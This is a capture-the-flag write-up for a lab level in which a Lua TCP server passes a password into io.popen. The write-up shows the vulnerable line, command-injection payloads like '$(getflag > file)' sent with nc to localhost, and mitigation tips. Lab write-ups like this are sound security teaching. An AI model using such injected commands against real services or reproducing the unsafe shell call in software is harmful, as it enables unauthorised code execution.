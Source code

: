 
---
### 🧾 Challenge Overview

> **"There is a backdoor process listening on port 50001."**  
> You're provided with a Lua script (`level12.lua`) that implements a TCP server. It waits for a "password" input, hashes it using SHA1, and compares it to a known hash to return the flag.

---

### 🔬 Vulnerable Code

```lua
prog = io.popen("echo "..password.." | sha1sum", "r")
```

🚨 **Vulnerability Type:** Shell Command Injection

#### 🔍 Why it's dangerous:

- `password` is inserted **directly** into a shell command
    
- No input sanitization or escaping
    
- `io.popen()` behaves like `system()` — it invokes the shell
    
- This allows arbitrary command execution via crafted inputs like `$(...)`
    

---

### 💥 Exploitation Strategy

We’ll inject a malicious command to **run arbitrary shell code as `flag12`** and dump the output into a file we can later read.

---

### 🧪 Step-by-Step Exploit

#### ✅ Confirm code execution:

Connect to the backdoor:

```bash
nc 127.0.0.1 50001
```

Send:

```
Password: $(whoami > /home/flag12/output)
```

Now read the file:

```bash
cat /home/flag12/output
# Output: flag12
```

🎉 **Proof of code execution as `flag12`** confirmed.

---

#### 🏁 Get the Flag

Use the same trick to execute `getflag`:

```bash
nc 127.0.0.1 50001
```

Send:

```
Password: $(getflag > /home/flag12/flag.txt)
```

Then read it:

```bash
cat /home/flag12/flag.txt
# Output: You have successfully executed getflag on a target account
```

---

### 🛡️ Lessons Learned

This level demonstrates how even a **high-level scripting language like Lua** can be just as dangerous when user input is passed to shell commands.

#### 🔒 Mitigation Tips:

- Never use `io.popen()` or `os.execute()` with raw user input
    
- If shell commands must be used, always escape or validate inputs
    
- Better: Use language-native cryptographic libraries and avoid invoking the shell altogether
    

---

### 🏆 Final Flag

```
You have successfully executed getflag on a target account
```

---
